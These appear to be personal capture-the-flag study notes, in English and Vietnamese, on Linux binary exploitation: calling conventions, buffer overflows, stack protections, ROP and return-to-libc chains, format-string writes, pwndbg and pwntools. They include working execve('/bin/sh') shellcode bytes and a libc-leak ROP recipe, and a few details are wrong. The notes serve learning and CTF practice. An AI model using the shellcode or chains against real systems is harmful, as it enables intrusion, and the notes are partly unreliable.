 # 🛠️ PWN STUDY NOTES

<details>
<summary><h1>🧠 Computer Architecture</h1></summary>
<p>

## Registers

| Register | Description |
|----------|-------------|
| `rax`    | Return value of a function → `rax`, `eax`, `ax`, `ah`, `al` (64/32/16/8/8) |
| `rbx`    | Base register (no specific use in x64) |
| `rcx`    | Counter register for loops |
| `rdx`    | Data register |
| `rsi`    | Source index (source in data movement) |
| `rdi`    | Destination index (destination in data movement) |
| `rsp`    | Stack pointer |
| `rbp`    | Stack base pointer |

---

## User-space function calls (System V i386 ABI)
- **Arguments:** pushed **right → left** on the stack.
  At callee entry: `[esp+4]=arg1`, `[esp+8]=arg2`, …
- **Return:** `eax` (or `edx:eax`), FP in `st(0)`
- **Callee-saved:** `ebx`, `esi`, `edi`, `ebp` (and `esp`)
- **Caller-saved:** `eax`, `ecx`, `edx`
- **Stack alignment:** ABI baseline 4 bytes; SIMD code may realign to 16 bytes in prologue.

---

## Linux i386 **syscall** convention (`int 0x80`)
- **`eax`** = syscall number.
- **Args 1–6:** `ebx`, `ecx`, `edx`, `esi`, `edi`, `ebp`
- **Return:** `eax` (≥0 success; **negative** = `-errno`)
- Other regs not guaranteed preserved.

---

## Linux x86-64 **syscall** convention (`syscall` instruction)

- **`rax`** — syscall number.
- **Arguments (1–6):** `rdi, rsi, rdx, r10, r8, r9`  
- **Return value:** `rax` (≥ 0 on success; **negative** value = `-errno`) 
- Other registers are preserved per usual rules (`rbx, rbp, r12–r15` are callee-saved in user space).

---

## 🧱 MEMORY STRUCTURE OF LINUX PROCESS

- **Code Segment (.text)**: executable code (r--x)
- **Data Segment**: initialized global/static vars (rw-)
- **BSS Segment**: uninitialized global/static vars (rw-)
- **Heap Segment**: dynamic memory allocation (rw-)
- **Stack Segment**: local vars, return addresses (rw-)
- **Extra Segment**: `fs` and `gs` (used by OS)

---

## ⚙️ ASSEMBLY BASICS

### 🔹 Opcodes

- **Data Transfer**: `mov`, `lea`
- **Arithmetic**: `inc`, `dec`, `add`, `sub`
- **Logic**: `and`, `or`, `xor`, `not`
- **Comparison**: `cmp`, `test`
- **Branch**: `jmp`, `je`, `jg`
- **Stack**: `push`, `pop`
- **Procedure**: `call`, `ret`, `leave`
- **System call**: `syscall`

### 🔹 Memory Operands

- `QWORD PTR [addr]`: 8 bytes
- `DWORD PTR [addr]`: 4 bytes
- `WORD PTR [rax]`: 2 bytes
- `BYTE PTR [rax]`: 1 byte

</p>
</details>


<details>
<summary><h1>📚 Summary of knowledge about pwn</h1></summary>
<p>

## 🐚 SHELLCODE

### 📌 Mục tiêu
Call `execve("/bin/sh", NULL, NULL)` to get shell.

---

### 🧬 Syscall Convention (x86_64)

| Register | Role |
|----------|------|
| `rax`    | Syscall number (`0x3b` for `execve`) |
| `rdi`    | arg0: filename (`/bin/sh`) |
| `rsi`    | arg1: argv (NULL) |
| `rdx`    | arg2: envp (NULL) |

---

### 🔩 Shellcode (x86_64)

```asm
mov rax, 0x68732f6e69622f   ; "/bin/sh" in hex
push rax
mov rdi, rsp                ; rdi = pointer to "/bin/sh"
xor rsi, rsi                ; rsi = NULL
xor rdx, rdx                ; rdx = NULL
mov rax, 0x3b               ; rax = syscall number for execve
syscall
```
bytes
`\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05`

---

### 🔩 Shellcode (x86)

```asm
xor eax, eax
xor ecx, ecx
xor edx, edx
add eax, 0x0b               ; syscall number for execve
xor ebx, ebx
push ebx
push 0x68732f2f             ; "//sh"
push 0x6e69622f             ; "/bin"
mov ebx, esp
int 0x80                    ; syscall
```
bytes
`\x31\xC0\x31\xC9\x31\xD2\x83\xC0\x0B\x31\xDB\x53\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80`

## 💥 BUFFER OVERFLOW

### 🧵 Input functions that can overflow

#### `gets(buf)` — **do not use (removed in C11)**
- **No input length limit.**
- Reads until `'\n'`, **does not store** the newline.
- Always appends `'\0'`.
- **Extremely unsafe** → classic stack overflow.

#### `scanf("%s", buf)`
- **No input length limit.**
- Reads until `" "`, `\n`, `\t`.
- Behaves like `gets()`.

#### `scanf("%[width]s", buf)`
- Read maximum `width` characters.
- If `width > sizeof(buf) - 1` → **may overflow**.
- Does not guarantee string **null-termination** (`\0`).

#### `fgets(buf, len, stream)`
- Read maximum `len - 1` characters, always appends `\0`. If input is longer, the excess remains in `stdin`.
- If input < `len`, the remaining part is filled with `\0`.
- If input = `len`, the last byte is discarded and `\0` is added.
- May **lose data**, e.g.: 30-byte buffer → can only store 29 characters if `len = 30`.
- If there's space, store `"\n\0"`.

#### `read(fd, buf, len)`
- Read maximum `len` bytes into `buf`.
- Returns the number of bytes read (≥ 0) or **negative** value on error.
- Does not guarantee null-termination (`\0`).
- Safe only if `len` is **less than or equal** to the sizeof(`buf`).

---

### 📌 Core Overflow types

- **Stack Overflow**: overwrite data on stack (return address, canary, ...).
- **Heap Overflow**: overwrites adjacent heap chunks/objects or allocator metadata.
- **Global/Static Overflow**: overwrites global variables or static data(`.data/.bss`).
- **Off-by-one**: overwrite one byte beyond buffer boundary, often affecting adjacent data.
- **Out-of-bounds**: access memory outside the allocated buffer.
- **Integer Overflow/Underflow**: occurs when an arithmetic operation produces a value outside the representable range of the integer type.

## 🛡️ CANARY (Stack Smashing Protector)

### 🧠 Mục đích
- **Chống tấn công buffer overflow** bằng cách phát hiện ghi đè lên vùng nhớ nhạy cảm.
- Nếu canary bị ghi đè → chương trình sẽ **Segmentation fault** và dừng ngay lập tức.

---

### 🔐 Cấu trúc
- Được lưu tại: `[rbp - 0x8]`
- Là một chuỗi **8 bytes ngẫu nhiên**, **byte đầu luôn là `\x00`**.

## 🔒 NX & ASLR

### 🚫 NX (No-eXecute)
- **Chống Shellcode**: Ngăn chặn thực thi code ở vùng bộ nhớ không được đánh dấu là thực thi.

---

### 🎲 ASLR (Address Space Layout Randomization)
- **Mục tiêu**: Phân bổ ngẫu nhiên địa chỉ cho stack, heap, shared libraries, ... mỗi khi chạy binary.
- **Lợi ích**: Gây khó khăn cho việc đoán địa chỉ khi tấn công.

---

### 🔗 RELRO (RELocation Read-Only)
- **no RELRO**: Cho phép ghi đè lên GOT (Global Offset Table).
- **partial RELRO**: GOT được chuyển thành chỉ đọc sau khi khởi tạo, nhưng một số phần vẫn có thể bị tấn công.
- **full RELRO**: Toàn bộ GOT được bảo vệ, **không thể ghi đè**.

---

### 🔧 Hook Overwrite
- **Ý tưởng**: Bypass RELRO bằng cách ghi đè các con trỏ hàm (như `malloc()`, `free()`, `realloc()`) với địa chỉ của hàm tùy ý nhằm thực thi code độc hại.

## 📌 PIE & RELRO

### 🔀 PIE (Position-Independent Executable)
- **Mục tiêu:** Thực thi binary với địa chỉ load thay đổi ( base address), làm cho việc exploit trở nên khó khăn hơn.
- **Hoạt động:** Mỗi lần chạy, binary sẽ được load vào một địa chỉ ngẫu nhiên, khiến cho việc đoán địa chỉ trở nên phức tạp.

---

### 🔄 PIC (Position-Independent Code)
- **Mục tiêu:** Cho phép code chạy đúng ở bất kỳ vị trí nào trong bộ nhớ.
- **Đặc điểm:** 
  - Không sử dụng địa chỉ tuyệt đối.
  - Phụ thuộc vào các địa chỉ tương đối (dựa trên giá trị của `RIP` trên x86_64) để thực hiện các phép tính địa chỉ.
- **Lợi ích:** Tăng tính linh hoạt và an toàn khi chương trình được load ở các địa chỉ khác nhau.

---

### 🔗 RELRO (RELocation Read-Only)
- **Bảo vệ:** Ngăn chặn ghi đè lên bảng địa chỉ (GOT) nhằm bảo vệ các hàm quan trọng khỏi bị khai thác.
- **Các cấp độ bảo vệ:**
  - **No RELRO:** GOT có thể bị ghi đè, dễ bị tấn công.
  - **Partial RELRO:** Một số phần của GOT được chuyển sang chế độ read-only sau khi khởi tạo.
  - **Full RELRO:** Toàn bộ GOT được bảo vệ hoàn toàn, rất khó bị khai thác.

## 🔄 R2L-ROP

### 📌 Khái niệm cơ bản

- **r2l (Return-to-libc):** Sử dụng lệnh `ret` để gọi hàm có sẵn trong libc, ví dụ: `system("/bin/sh")`.
- **ROP (Return Oriented Programming):** Sử dụng chuỗi các gadget (lệnh `ret` kết hợp với các lệnh nhỏ) để điều khiển luồng thực thi của chương trình.
- **GOT (Global Offset Table):** Bảng chứa địa chỉ của các hàm trong libc (ví dụ: `puts`).
- **PLT (Procedure Linkage Table):** Sử dụng để gọi các hàm qua GOT.
- Call a func : func_plt -> func_got -> func_libc
---

### 🔧 Các chi tiết kỹ thuật

- **Padding Return Address:** 
  - Return address được cấp 16 bytes.
  - Thêm lệnh `ret` trước gadget như `pop rdi; ret` để tránh lỗi do `movaps`.

- **Xác định địa chỉ hàm:**
  - Thông thường, `system` được tính bằng công thức:  
    `system = read - 0xc3c20`  
    (tham khảo `readelf -s libc.so.6 | grep "read@"` để biết offset chính xác)

- **Tìm ROP Gadget:**
  - Sử dụng lệnh:  
    ```bash
    ROP gadget --binary filename | grep "gadget"  
    #tìm ngay trong process
    pop_rdi_ret = r.find_gadget(['pop rdi', 'ret'])[0] #tìm các thanh ghi ex: pop rdi ; ret
    ```  
    ví dụ: tìm gadget `pop rdi; ret` để thiết lập đối số cho `system`.  
    quay lại `main` để khai thác tiếp (`e.symbols['main']`)

---

### 📌 Ví dụ trên x64

1. **Leak địa chỉ libc:**
   - Sử dụng hàm như `puts` để in ra địa chỉ được lưu trong GOT.
   - Ví dụ: dùng gadget `pop rdi; ret` để đưa địa chỉ của `puts@got` vào rdi và sau đó gọi `puts(puts@got)`.
   - Tính toán:
     - `libc_base = leaked_address - puts_offset (libc.symbols['puts'])`

2. **Xác định địa chỉ hàm `system` và chuỗi `/bin/sh`:**
   - `system = libc_base + system_offset`
   - `binsh = libc_base + offset_of_bin_sh`

3. **Triển khai ROP:**
   - Sử dụng gadget `pop rdi; ret` để thiết lập đối số cho hàm `system`.
   - ROP mẫu:  
     ```python
     p64(pop_rdi_ret) + p64(binsh) + p64(system)
     ```

---

### 📌 Ví dụ trên x86

Quy trình tấn công trên x86 có thể bao gồm:
1. Đọc dữ liệu vào writable area: `read(0, writableArea, len("/bin/sh"))`
2. Ghi địa chỉ của read_got ra màn hình: `write(1, read_got, len(str(read_got)))`
3. Đọc địa chỉ mới từ read_got: `read(0, read_got, len(str(read_got)))`
4. Gọi system với writableArea chứa "/bin/sh": `system(writableArea)`

## 📏 OUT OF BOUNDS

- **Out of Bounds (OOB):** Xảy ra khi chỉ số dùng để truy cập phần tử của mảng âm hoặc vượt quá độ dài của mảng.
- **Truy cập phần tử mảng:**  
  ```c
  &arr[k] = arr + sizeof(elem) * k

## 🔠 FORMAT STRING VULNERABILITY (FSB)

### Cách Hoạt Động của `printf`
- **`printf("%s", input)`**: In ra chuỗi được truyền vào biến `input`.
- **`printf("%s")`**: Nếu không có đối số, sẽ in ra giá trị tại địa chỉ thứ 1 trên stack.

### Chỉ Định Tham Số với `$`
- **`printf("%30$s")`**: In ra giá trị của đối số thứ 30 trên stack.
- **`printf("%6$p")`**: In ra địa chỉ (theo dạng hex có `0x`) của đối số thứ 6 trên stack.
- **`printf("%6$x")`**: In ra giá trị hex của đối số thứ 6 trên stack, không kèm `0x`.

### Ứng Dụng của Format String
- **Leak thông tin:**  
  Sử dụng các format specifier như `%p`, `%x`, `%d`, `%*\n` để leak các giá trị trên stack (địa chỉ, giá trị số, ...).
- **Đọc dữ liệu vùng nhớ:**  
  Sử dụng `%s` để in ra chuỗi nằm tại địa chỉ được tham chiếu từ stack (ví dụ: đọc flag).
- **Ghi đè bộ nhớ:**  
  Sử dụng `%n`, `%hn`, `%hhn` để ghi số lượng ký tự đã in ra vào một địa chỉ cụ thể, cho phép thay đổi giá trị của biến trong bộ nhớ.

### Phân Biệt 32-bit và 64-bit
- **32-bit:** Các đối số thường được in trực tiếp từ stack.
- **64-bit:**  
  - 5 đối số đầu tiên được truyền qua các thanh ghi: `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`.
  - Từ đối số thứ 6 trở đi, các giá trị được lấy từ stack (ví dụ: `rsp`, `rsp+0x8`, `rsp+0x10`, `rsp+0x18`).
## 🐞 DEBUG & PWNDGB COMMANDS

Pwndbg là một extension cho GDB, cung cấp nhiều lệnh hữu ích để phân tích và khai thác binary. Dưới đây là danh sách các lệnh cơ bản và nâng cao cùng với mô tả:

</p>
</details>

<details>
<summary><h1>🛠️ Pwndbg</h1></summary>
<p>

## 🔍 Các lệnh cơ bản

- **checksec**
  - Hiển thị các tính năng bảo mật của binary:
    - **Canary:** Chống buffer overflow (thường được đặt tại `[rbp-0x8]`).
    - **NX (Non-Executable):** Ngăn chặn thực thi shellcode trên stack.
    - **PIE (Position Independent Executable):** Binary được load tại địa chỉ ngẫu nhiên.
    - **RELRO (RELocation Read-Only):** Kiểm tra tính năng bảo vệ bảng địa chỉ (GOT). (anti GOT overwrite)
  
- **start**
  - Chạy chương trình và dừng ngay tại đầu hàm `main`, giúp bạn nhanh chóng bắt đầu debug.

- **disass main**
  - Disassemble hàm `main` để xem mã lệnh máy (assembly) của chương trình.

- **vmmap**
  - Hiển thị sơ đồ bộ nhớ ảo của tiến trình, bao gồm các vùng: stack, heap, thư viện, và các segment khác.

- **r**
  - Chạy chương trình từ đầu.

- **b *address**
  - Đặt breakpoint tại một địa chỉ cụ thể.
  - *Ví dụ:* `b *0x400123`

- **del <breakpoint>**
  - Xóa breakpoint đã đặt.

- **c**
  - Tiếp tục thực thi chương trình cho đến breakpoint tiếp theo hoặc khi chương trình dừng.

- **si**
  - Step Into: Thực thi lệnh tiếp theo và bước vào bên trong các hàm (nếu có).

- **ni**
  - Next Instruction: Thực thi lệnh tiếp theo nhưng không bước vào các hàm.

- **i**
  - Lệnh `info` để hiển thị thông tin, ví dụ:
    - `i r`: Thông tin về các thanh ghi.
    - `i b`: Danh sách breakpoints.

- **k**
  - Kill: Dừng tiến trình đang debug.

- **bt**
  - Backtrace: Hiển thị ngăn xếp lời gọi (call stack) tại thời điểm dừng.

- **examine (x/)**
  - Kiểm tra bộ nhớ tại một địa chỉ nhất định.
  - Cú pháp: `x/<format> <address>`
    - `wx`: 4 bytes (word) dưới dạng hex.
    - `bx`: 1 byte dưới dạng hex.
    - `4i`: 4 lệnh (instructions).
    - `s`: In ra chuỗi (string).
  - *Ví dụ:* `x/10wx 0x601000` hiển thị 10 word dưới dạng hex từ địa chỉ `0x601000`.

---

## 🔢 Các thanh ghi quan trọng

- **RSP (64-bit) / ESP (32-bit)**
  - Con trỏ stack; trỏ tới đỉnh của stack.

- **RIP (64-bit) / EIP (32-bit)**
  - Con trỏ lệnh; chứa địa chỉ của lệnh tiếp theo sẽ được thực thi.

---

## 🚀 Các lệnh nâng cao trong pwndbg

- **context**
  - Hiển thị tổng quan về trạng thái hiện tại của tiến trình, bao gồm các thanh ghi, stack, và disassembly xung quanh địa chỉ hiện tại.

- **heap**
  - Hiển thị thông tin chi tiết về heap, hỗ trợ phân tích các lỗ hổng liên quan đến heap.

- **search**
  - Tìm kiếm một chuỗi hoặc dãy byte trong bộ nhớ.
  - *Ví dụ:* `search "flag"` sẽ tìm tất cả các vị trí chứa chuỗi `"flag"`.

- **pattern_create** và **pattern_offset**
  - Hữu ích khi tạo và phân tích các chuỗi pattern (cyclic pattern) để tìm offset trong quá trình exploit:
    - `pattern_create 100`: Tạo pattern với 100 byte.
    - `pattern_offset <value>`: Xác định vị trí của giá trị `<value>` trong pattern.

- **vmmap**
  - Hiển thị chi tiết hơn về layout bộ nhớ, bao gồm quyền truy cập và các file đã map.

</p>
</details>

<details>
<summary><h1>🧰 Pwntools</h1></summary>
<p>

PwnTools là thư viện mạnh mẽ hỗ trợ khai thác và tự động hóa các tác vụ tương tác với binary. Dưới đây là một số lệnh và kỹ thuật cơ bản:

---

### 🔹 Process & Remote

```python
from pwn import *

# Khởi tạo process cục bộ
p = process('./filename')        # Local binary

# Kết nối tới server từ xa
p = remote('address', port)      # Remote server

# Đính kèm gdb để debug (với API của pwntools)
gdb.attach(p, api=True)
```

### 🔹 ELF & Libc

```python
# Load binary và libc
e = ELF('./filename')
libc = ELF('./libc.so.6')

# Lấy địa chỉ từ PLT (Procedure Linkage Table)
plt_addr = e.plt['funcname']

# Lấy địa chỉ từ GOT (Global Offset Table)
got_addr = e.got['funcname']

# Lấy offset của hàm trong binary
func_offset = e.symbols['funcname']

# Lấy offset của hàm trong libc (chú ý: tên symbol phải chính xác)
libc_func_offset = libc.symbols['funcname']

# Tìm vị trí chuỗi "/bin/sh" trong libc
bin_sh = list(libc.search(b'/bin/sh'))[0]
```

### 🔹 Packing & Unpacking

```python
# Chuyển đổi số thành chuỗi byte dạng little-endian (64-bit và 32-bit)
packed_64 = p64(0xdeadbeef)
packed_32 = p32(0xdeadbeef)

# Giải nén chuỗi byte thành số nguyên (64-bit và 32-bit)
number_64 = u64(b'\xef\xbe\xad\xde\x00\x00\x00\x00')
number_32 = u32(b'\xef\xbe\xad\xde')
```

### 🔹 Sending and receiving data

```python
# Gửi dữ liệu
p.send(b'A')                      # Gửi 1 byte 'A'
p.sendline(b'A')                  # Gửi 'A' kèm newline

# Gửi dữ liệu sau khi nhận được prompt
p.sendafter(b'hello', b'A')
p.sendlineafter(b'hello', b'A')

#send and sendline
send: read
sendline: scanf, gets, fgets

# Nhận dữ liệu
data = p.recv(1024)               # Nhận tối đa 1024 byte
line = p.recvline()               # Nhận đến khi gặp newline
exact = p.recvn(5)                # Nhận chính xác 5 byte
until = p.recvuntil(b'hello')     # Nhận cho đến khi gặp chuỗi 'hello'
all_data = p.recvall()            # Nhận toàn bộ dữ liệu cho đến khi process kết thúc
```

### 🔹 Shellcode

```python
# Shellcode dạng bytes (x86)
shellcode_x86 = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9"
    b"\x31\xd2\xb0\x0b\xcd\x80"
)

# Shellcode dạng bytes (x86_64)
shellcode_x86_64 = (
    b"\x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E"
    b"\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2"
    b"\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05"
)

# Tạo shellcode để spawn shell bằng shellcraft
code = shellcraft.sh()
machine_code = asm(code)          # Assembles shellcode thành machine code

# Ví dụ: sử dụng shellcode để cat file (lúc excerve bị band)
shellcraft.cat() có thể được sử dụng để in nội dung của file trong một số tình huống
```

### 🔹 Print & Interactive

```python
# Hiển thị thông tin ra console
log.info("Thông tin hữu ích" + info)

# Chuyển sang chế độ interactive để tương tác trực tiếp với process
p.interactive()
```

</p>
</details>

<details>
<summary><h1>📚 Pwninit</h1></summary>
<p>

-`pwninit`: tự patch file  
-`mv file_patch file`: đổi tên

</p>
</details>
